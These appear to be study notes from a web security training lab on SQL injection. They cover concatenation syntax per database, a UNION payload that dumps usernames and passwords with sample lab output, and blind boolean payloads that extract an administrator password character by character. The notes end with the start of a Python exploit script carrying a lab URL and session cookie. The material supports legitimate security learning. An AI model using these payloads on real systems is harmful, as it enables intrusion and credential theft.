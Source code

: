 Use concatination to retrieve multiple values together within this single column.

| Database   | Syntax        |
| ---------- | ------------- |
| Oracle     | `'foo'        |  | 'bar'` |
| Microsoft  | `'foo'+'bar'` |
| PostgreSQL | `'foo'        |  | 'bar'` |


MySQL		'foo' 'bar' [Note the space between the two strings]
			CONCAT('foo','bar')

`'UNION+SELECT+null,username||'-'||password+FROM+users--`

Output:

```
carlos-oaym6na3wgbptt1rz1eu
administrator-d49v6zz4hdczno94kvd7
wiener-vsbbtfiu7s17bi8a24ic
```

# Blind SQL injection

## Exploiting blind SQL injection by triggering conditional responses

Example:

```
…xyz' AND '1'='1
…xyz' AND '1'='2
```
The first of these values causes the query to return results, because the injected AND '1'='1 condition is true. As a result, the "Welcome back" message is displayed.
The second value causes the query to not return any results, because the injected condition is false. The "Welcome back" message is not displayed.

=> Extract each each character at a time:

`xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm`
=> This returns the "Welcome back" message, indicating that the injected condition is true, and so the first character of the password is greater than m.

`xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't`
=> This does not return "Welcome back", First character is not greater than t.

`xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's`
=> "Welcome back" appears => the first character of password is s.


Example exploit script:
```python
import httpx
import string

password_length = 20
password = ""
alphabet= list(string.ascii_lowercase + string.ascii_uppercase + string.digits)
print(alphabet)

url = "https://0a25000a03adb1058238338d00af00cc.web-security-academy.net/"
cookies = {
    "session": "JJRFC6uHJFhRo7v4niHdGrE1HAr61Pw6",
    "TrackingId": "a"
}

```